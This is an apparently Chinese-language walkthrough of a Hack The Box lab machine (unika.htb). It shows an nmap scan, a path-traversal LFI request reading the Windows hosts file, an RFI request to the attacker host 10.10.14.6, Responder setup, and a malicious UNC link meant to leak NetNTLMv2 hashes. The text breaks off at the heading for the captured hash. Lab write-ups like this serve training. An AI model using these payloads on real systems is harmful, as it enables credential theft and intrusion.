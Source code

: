 ### 2.1 环境准备与信息收集

**网络配置**：

```bash
# 添加hosts解析
echo "10.129.132.84 unika.htb" | sudo tee -a /etc/hosts
```

![image-20250825023522169](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825023522169.png)

**端口扫描结果**：

```bash
nmap -p- --min-rate 1000 -sV 10.129.132.84

# 开放端口：
# 80/tcp   - Apache httpd 2.4.52 (Windows)
# 5985/tcp - Microsoft HTTPAPI httpd 2.0 (WinRM)
```

![image-20250825023558541](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825023558541.png)

### 2.2 漏洞发现与利用过程

#### 2.2.1 文件包含漏洞验证

**LFI测试**：

```http
GET /index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts HTTP/1.1
Host: unika.htb
```

**RFI测试**：

```http
GET /index.php?page=//10.10.14.6/testfile HTTP/1.1
Host: unika.htb
```

#### 2.2.2 Responder配置与哈希捕获

**启动Responder**：

```bash
sudo responder -I tun0 -wv
```

![image-20250825030004396](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825030004396.png)**诱导哈希泄漏**：
通过浏览器访问恶意链接：

```
http://unika.htb/index.php?page=//10.10.14.6/share
```

**捕获的NetNTLMv2哈希示例**：

